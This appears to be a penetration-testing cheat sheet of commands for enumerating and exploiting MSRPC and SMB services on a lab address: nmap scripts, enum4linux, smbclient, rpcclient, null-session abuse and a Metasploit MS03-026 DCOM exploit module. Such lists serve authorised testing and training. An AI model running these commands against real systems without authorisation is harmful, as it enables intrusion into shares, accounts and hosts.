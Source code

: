 
## Port 135 - MSRPC

Some versions are vulnerable.

```
nmap 10.11.1.111 --script=msrpc-enum
msf > use exploit/windows/dcerpc/ms03_026_dcom
```

## Port 139/445 - SMB


```
# Enum hostname
enum4linux -n 10.11.1.111
nmblookup -A 10.11.1.111
nmap --script=smb-enum* --script-args=unsafe=1 -T5 10.11.1.111

# Get Version
smbver.sh 10.11.1.111
Msfconsole;use scanner/smb/smb_version
ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]' 
smbclient -L \\\\10.11.1.111

# Get Shares
smbmap -H  10.11.1.111 -R <sharename>
echo exit | smbclient -L \\\\10.11.1.111
smbclient \\\\10.11.1.111\\<share>
smbclient -L //10.11.1.111 -N
nmap --script smb-enum-shares -p139,445 -T4 -Pn 10.11.1.111
smbclient -L \\\\10.11.1.111\\

# Check null sessions
smbmap -H 10.11.1.111
rpcclient -U "" -N 10.11.1.111
smbclient //10.11.1.111/IPC$ -N

# Exploit null sessions
enum -s 10.11.1.111
enum -U 10.11.1.111
enum -P 10.11.1.111
enum4linux -a 10.11.1.111
/usr/share/doc/python3-impacket/examples/samrdump.py 10.11.1.111

# Connect to username shares
smbclient //10.11.1.111/share -U username

# Connect to share anonymously
smbclient \\\\10.11.1.111\\<share>
smbclient //10.11.1.111/<share>
smbclient //10.11.1.111/<share\ name>
smbclient //10.11.1.111/<""share name"">
rpcclient -U " " 10.11.1.111
rpcclient -U " " -N 10.11.1.111

# Check vulns
nmap --script smb-vuln* -p139,445 -T4 -Pn 10.11.1.111

# Check common security concerns
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_checks.rc

# Extra validation
msfconsole -r /usr/share/metasploit-framwork/scripts/resource/smb_validate.rc

```
